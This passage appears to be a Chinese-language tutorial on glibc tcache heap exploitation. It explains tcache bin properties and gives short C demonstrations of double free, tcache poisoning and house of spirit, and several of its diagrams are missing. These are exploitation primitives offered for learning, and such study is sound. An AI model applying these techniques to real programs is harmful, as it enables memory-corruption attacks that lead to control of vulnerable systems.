1. 每个 bins 最多存放 7 个 chunk
2. chunks 在 tcache bin 的顺序和在 fastbin 中的顺序是反过来的。
3. tcache 中的 chunk 不会被合并，无论是相邻 chunk，还是 chunk 和 top chunk。因为这些 chunk 会被标记为 inuse。

```
#include <stdio.h>
#include <stdlib.h>

int main()
{
	int *a = malloc(8);

	free(a);
	free(a);

	fprintf(stderr, "Next allocated buffers will be same: [ %p, %p ].\n", malloc(8), malloc(8));

	return 0;
}
```
在glibc 2.29版本以下未对tcache进行double free 检查，（glibc 2.29会对tcache bin中的堆块进行遍历，如果两个堆块的地址相同就认为发生了double free），double free a后堆情况如下：


malloc(8)两次后得到的地址相同。

### tcache_poisoning.c

```
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>

int main()
{
	size_t stack_var;
	
	intptr_t *a = malloc(128);
	free(a);

	a[0] = (intptr_t)&stack_var;
    fprintf(stderr, "1st malloc(128): %p\n", malloc(128));
	intptr_t *b = malloc(128);

	return 0;
}
```
伪造tcache bin之前的堆情况：


伪造tcache bin之后的堆情况：



通过覆盖tcache bin中chunk的fd指针，将其指向目标地址，从而改变tcache_entry的next指针，在malloc时在目标地址得到 chunk。且tcache bin未对目标地址的size进行检查。


### tcache_house_of_spirit.c

```
#include <stdio.h>
#include <stdlib.h>

int main()
{
	malloc(1);
	unsigned long long *a; //pointer that will be overwritten
	unsigned long long fake_chunks[10]; //fake chunk region

	fake_chunks[1] = 0x40; // this is the size 在栈上构造 fake chunk

	a = &fake_chunks[2];
	free(a);
}

```
在栈上伪造的chunk 如下，只需要伪造size的大小：


tcache 在释放堆块时没有对其前后堆块进行合法性校验，只需要本块对齐（2*SIZE_SZ）就可以将堆块释放到 tcache 中，而在申请时，tcache 对内部大小合适的堆块也是直接分配的，导致常见的 house_of_spirit 可以延伸到smallbin，而且更为简单。

释放后，伪造的chunk就被放入tcache bin中：

